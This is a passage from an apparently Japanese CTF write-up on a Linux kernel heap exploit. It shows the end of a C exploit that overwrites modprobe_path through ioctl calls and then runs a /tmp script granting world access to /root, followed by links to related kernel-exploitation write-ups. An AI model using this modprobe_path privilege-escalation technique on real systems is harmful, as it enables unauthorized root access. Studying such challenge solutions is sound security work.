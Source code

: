 ```c

  ioctl(fd, CTF4B_IOCTL_STORE, buf);
  ioctl(fd, CTF4B_IOCTL_LOAD, modprobe_path_addr);

  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/a.sh");
  system("chmod +x /tmp/a.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn");

  close(fd);
  return 0;
}

```

## References

- [Holstein v2: Heap Overflowの悪用 | PAWNYABLE!](https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html#AAR-AAW%E3%81%AB%E3%82%88%E3%82%8BExploit)
	- AAR/AAWが実現している時の説明
- [Imaginary CTF 2023 has just en - HackMD](https://hackmd.io/@capri/SyQS6Eo9n#Extra-lore-%E2%80%93--kASLR-bypass-via-cpu_entry_area)
- [[ImaginaryCTF 2023 - pwn] window-of-opportunity // ret2school](https://ret2school.github.io/post/iwindow/)
- [hxp | hxp CTF 2022: one_byte writeup](https://hxp.io/blog/99/hxp-CTF-2022-one_byte-writeup/)
	- 最初の3行ぐらいしか読んでいないが、`cpu_entry_area`がKASLRの影響を受けないことを初めて知ったのはここ

---

[^1]: ユーザー空間でも良いがおそらく簡単には見つからないか存在しない
